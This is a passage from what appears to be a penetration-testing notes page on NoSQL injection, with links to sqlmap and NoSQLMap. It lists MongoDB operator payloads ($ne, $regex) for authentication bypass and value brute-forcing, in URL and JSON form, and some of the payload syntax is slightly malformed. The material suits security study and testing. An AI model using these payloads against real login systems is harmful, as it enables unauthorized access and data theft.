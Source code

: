 <figure><img src="../.gitbook/assets/image (288).png" alt=""><figcaption><p><em>Example of Valid Entry Exfiltrated</em></p></figcaption></figure>

The user manual can be found here: (learn to use it yourself!)

{% embed url="https://github.com/sqlmapproject/sqlmap/wiki" %}

## NoSQL Injection

While not technically an SQL Injection, NoSQL injection is still a database manipulation tool. However, this would involve databases that do not use SQL, such as MongoDB.

NoSQL databases are a bit looser and have less constraints, as well as less checks. As such, databases like this are definitely faster performance wise, but still are vulnerable if not protected accordingly.

The exploits are based on adding an **operator:**

{% code overflow="wrap" %}
```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
```
{% endcode %}

This can also be used to bypass authentications:

```bash
#in URL
username[$ne]=toto&password[$ne]=toto

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Other exploits can still abuse these databases, and here is a link to more payloads:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}

**NoSQLMap** is also an automatic tool that can be used to replace **sqlmap** wherever needed.

{% embed url="https://github.com/codingo/NoSQLMap" %}
